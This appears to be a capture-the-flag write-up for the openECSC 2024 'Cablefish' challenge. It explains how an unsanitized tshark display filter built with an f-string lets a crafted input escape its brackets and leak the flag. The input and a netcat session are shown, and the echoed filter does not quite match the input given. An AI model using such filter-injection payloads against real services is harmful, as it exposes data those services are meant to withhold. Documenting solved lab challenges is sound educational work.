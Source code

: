 # Cablefish

## Description

```
Welcome to our platform! Here you can do traffic analysis via TCP, isn't it awesome?

Just specify your filter, we will sanitize it (we want to make sure no sensitive data will be leaked) and you will be given the traffic!

This is a remote challenge, you can connect with:

nc cablefish.challs.open.ecsc2024.it 38005
```

## Provided Files

- `chall.py`

## Solve Process

When looking at the source code provided, we can observe that this service provides a method to set a `tshark` filter to observe a saved `.pcap` file on the server.

The interesting bit is how the filter is piped into the command string

```py
# --- snip ---

flag = os.getenv('FLAG', 'openECSC{redacted}')

# --- snip ---

filter = filter[:50]
sanitized_filter = f'(({filter}) and (not frame contains "flag_placeholder"))'
p1 = subprocess.Popen(['tshark', '-r', '/home/user/capture.pcapng', '-Y', sanitized_filter, '-T', 'fields', '-e', 'tcp.payload'], shell=False, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
stdout, stderr = p1.communicate()
```

So `filter` is basically the raw data that we can pass via `netcat` and it firstly gets split down to a limit of 50 characters and then templated into an `f-string`.

No other sanitization takes place, which is cool since this means we can escap the brackets pretty easily, when just looking at the hardcoded stuff.

```py
f'(({filter}) and (not frame contains "flag_placeholder"))'
```

Since `flag_placeholder` will be substituted with our actual flag, we want to not have it excluded, which the hardcoded string does.
By utilizing some bracket trickery and additional logic operators, we can escape from the bracket confinement.

```t
# define this as our input
input = 'frame contains "flag_placeholder" )) or (( dns'
# which would yield
'(( frame contains "flag_placeholder" )) or (( dns ) and (not frame contains "flag_placeholder"))'
```

This makes the entire hardcoded expression optional since we utilize `or`.

Let's input this to the `netcat` accessible service and check if were correct.

```bash
~ ❯ ncat cablefish.challs.open.ecsc2024.it 38005

# --- snip ---

Please, specify your filter: frame contains "flag_placeholder" )) or (( dns
Loading, please wait...
Evaluating the filter: ((frame contains "flag_placeholder" )) or ((arp) and (not frame contains "flag_placeholder"))

openECSC{5c9dc5b7-2690-428a-9dcf-0aed3a1b3893}.

# --- snip ---
```

And that is a solve.
